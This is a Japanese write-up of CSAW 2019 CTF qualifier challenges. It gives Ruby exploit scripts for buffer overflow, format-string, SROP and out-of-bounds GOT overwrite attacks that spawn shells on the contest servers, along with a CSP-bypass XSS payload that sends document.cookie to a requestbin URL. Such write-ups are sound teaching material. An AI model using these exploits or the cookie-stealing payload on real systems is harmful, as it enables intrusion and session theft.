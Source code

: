 ```yaml
---
title: "Csaw2019 writeup"
date: 2019-09-16T09:50:28+09:00
draft: false
categories:
- writeup
---
```


## Misc

### mcgriddlev2

- 問題文にFLAGが記載されている
- **flag{W3lcome_7o_CSAW_QUALS_2019!}**

## Pwn 

### baby_boi (50pt)

- シンプルなBOFでIPが奪える問題
- libcのアドレスを出力してくれているので、配布されたlibcでオフセット求めてOne-Gadget に飛ばしてシェルを奪う
```ruby
#!/usr/bin/env ruby
# coding: ascii-8bit
require 'pwn'
$z = Sock.new "localhost", 8888
$z = Sock.new "pwn.chal.csaw.io", 1005
libc = ELF.new "./libc-2.27.so"
#libc = ELF.new "/lib/x86_64-linux-gnu/libc-2.29.so"
def z; $z; end
z.recvuntil("\n")
libc_printf = z.recvuntil("\n").match(/: (.+)/)[1].to_i(16)
libc_base = libc_printf - libc.symbols["printf"]
puts "%x" % libc_base
payload = "A" * 40
payload << p64(libc_base + 0x4f322)
z.sendline(payload)
z.interact
```
- **flag{baby_boi_dodooo_doo_doo_dooo}**

### GOT Milk? (50pt)

- 独自の共有オブジェクトとバイナリが配られる
- `set LD_LIBRARY_PATH ./` でカレントディレクトリの共有オブジェクトを見るようにする
- FSBがあるので、それを使ってGOT Overwriteする
```ruby
#!/usr/bin/env ruby
# coding: ascii-8bit
require 'pwn'
require 'fsa'
#$z = Sock.new "localhost", 8888
$z = Sock.new "pwn.chal.csaw.io", 1004
def z; $z; end
value = 0x89
fmt = FSA.new()
fmt[0x804a010] = value
payload = fmt.payload(7) # index of argument
puts z.recvuntil("? ")
z.sendline(payload)
puts z.recv
```
- **flag{y0u_g00000t_mi1k_4_M3!?}**

### small_boi (100pt)

- statically linked でstrippedな小さなバイナリが与えられる
- sig\_return システムコールを呼ぶようなraxの設定のされ方があるのと自明なBOFがあるので、Sigreturn ROP (SROP) で `execve("/bin/sh", 0, 0)` を実行する
  - SROPは、スタックの値を使ってsig\_return実行時にレジスタの値を代入する攻撃
  - これを使ってrdiやrsi、ripなどが設定できるため任意のシステムコールを呼べる
```ruby
#!/usr/bin/env ruby
# coding: ascii-8bit
require 'pwn'
#$z = Sock.new "localhost", 8888
$z = Sock.new "pwn.chal.csaw.io", 1002
def z; $z; end
payload = "\x00" * 0x28
payload << p64(0x40017c)
payload << p64(0x0) * 4
payload << p64(0x0) * 8 # r8~r15
payload << p64(0x4001ca) # rdi = /bin/sh
payload << p64(0) # rsi
payload << p64(0) # rbp
payload << p64(0) # 
payload << p64(0) # 
payload << p64(0x3b) # rax = 0x3b 
payload << p64(0) # rcx
payload << p64(0)   # rsp
payload << p64(0x00400185) # rip = syscall
payload << p64(0x0) # eflags
payload << p16(0x33) # cs
payload << p16(0)
payload << p16(0)
payload << p16(0x2b) # ss
payload << p64(0x0) * 5 # err ~ union
payload << p64(0x0) * 8 # reserved[8]
z.sendline payload
z.interact
```
- **flag{sigrop_pop_pop_pop}**

### traveller

- 解けなかったのでwriteupを見た
- Off-by-oneがあるためHeap問題かと思ったら操作対象のインデックスの入力に負数が入力できるOOB問題
- 編集コマンドで、`-50` をするとfree@gotを書き換えられたのでこれを使って`cat_flag`関数に飛ばす
```ruby
#!/usr/bin/env ruby
# coding: ascii-8bit
require 'pwn'
$z = Sock.new "pwn.chal.csaw.io", 1003
#elf = ELF.new "./traveller"
#libc = ELF.new "./libc-2.23.so"
context.log_level = :debug
def z; $z; end
def add(dist, dest)
  z.sendline "1"
  z.recvuntil "> "
  z.sendline dist.to_s
  z.recvuntil ": "
  z.sendline dest
  z.recvuntil "> "
end
def change(dist, dest)
  z.sendline "2"
  z.recvuntil ": "
  z.sendline dist.to_s
  z.send dest
  z.recvuntil "> "
end
def delete(dist)
  z.sendline "3"
  z.recvuntil ": "
  z.sendline dist.to_s
  z.recvuntil "> "
end
def check(dist)
  z.sendline "4"
  z.recvuntil ">"
  z.sendline dist.to_s
  return z.recvuntil "> "
end
tmp = z.recvuntil "> "
stack_address = tmp.match(/.\n(.*) \n\n/)[1].to_i(16)
add(1, "AAAAAAAA")
change(-50, p64(0x4008b6))
puts delete(0)
```
- **flag{h0pe_y0u_3nj0y_ur_j0urn3y}**

## Rev

### Beleaf

- バイナリ中にFLAGに使われる文字列とインデックスの配列があるので、それを引っこ抜いてきて実行する

```ruby
#!/usr/bin/env ruby

idxs = [0x1, 0x9, 0x11, 0x27, 0x02, 0x00, 0x12, 0x03, 0x8, 0x12, 0x9, 0x12, 0x11, 0x1, 0x3, 0x13, 0x4, 0x3, 0x5, 0x15, 0x2e, 0xa, 0x3, 0xa, 0x12, 0x3, 0x1, 0x2e, 0x16, 0x2e, 0xa, 0x12, 0x6]

flag = [0x77, 0x66, 0x7b, 0x5f, 0x6e, 0x79, 0x7d, 0x20, 0x62, 0x6c, 0x72, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x61, 0x65, 0x69, 0x20, 0x6f, 0x74, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x67, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x75].map(&:chr)

idxs.each do |i|
  print flag[i]
end
```
- **flag{we_beleaf_in_your_re_future}**

## Web

### baby csp

- CSPが有効なXSS問題
  - `default-src 'self'; script-src 'self' *.google.com; connect-src *`
- 上記のCSPからJSONPエンドポイントでのXSSを使う
  - https://inside.pixiv.blog/kobo/5137
- FLAGは、Cookieにあるので、requestbin を使ってPOSTさせるJavaScriptを埋め込む
- `<script src="https://accounts.google.com/o/oauth2/revoke?callback=navigator.sendBeacon('http://requestbin.net/r/ugix54ug', document.cookie)"></script>`
- **flag{csp_will_solve_EVERYTHING}**
